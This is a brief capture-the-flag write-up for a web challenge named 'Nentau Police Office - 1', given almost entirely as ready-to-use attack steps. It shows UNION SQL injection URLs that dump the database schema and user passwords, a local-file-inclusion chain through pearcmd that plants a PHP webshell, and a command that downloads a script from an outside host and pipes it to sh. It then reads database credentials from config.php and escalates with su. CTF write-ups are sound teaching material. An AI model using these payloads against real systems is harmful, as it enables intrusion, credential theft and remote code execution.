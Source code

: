 # Nentau Police Office - 1

- SQL Injection:
    - dump schema: http://34.81.46.184:37463/news.php?id=-1%20union%20select%201,2,group_concat(schema_name),4,5%20from%20information_schema.schemata
    - dump user: http://34.81.46.184:37463/news.php?id=-1%20union%20select%201,2,group_concat(concat(uid,0x20,username,0x20,password)),4,5%20from%20users
        - `1 tsjadmin RRwZriRCF3CoYtbjkF3u` 
- LFI
    - http://34.81.46.184:37463/adminmanager.php?op=././././users
    - using pearcmd to RCE: 
        - `/adminmanager.php?+config-create+/&op=../../../../../../../../../../usr/local/lib/php/pearcmd&/<?=system($_GET[1]);?>+/var/tmp/a.php`
        - `/adminmanager.php?op=../../../../../../../../var/tmp/a&1=curl%20kaibro.tw/yy%20|%20sh`
- flag permission 
    - flag1.txt owner is `tsjadmin`
- find password of `tsjadmin`
    - `cat /var/www/html/config.php` : 

    ```
    ...
    $host = "database";
    $dbname = "announcement";
    $user = "tsjadmin";
    $pass = "tsjadmin@nentaupoliceoffice";
    $db = new PDO("mysql:host=$host;dbname=$dbname", $user, $pass);
    session_start();
    ...
    ```

- `su tsjadmin` with password `tsjadmin@nentaupoliceoffice`
- `cat /flag1.txt`
- `TSJ{Just_an_simple_Penetration_Testing_challenge}`
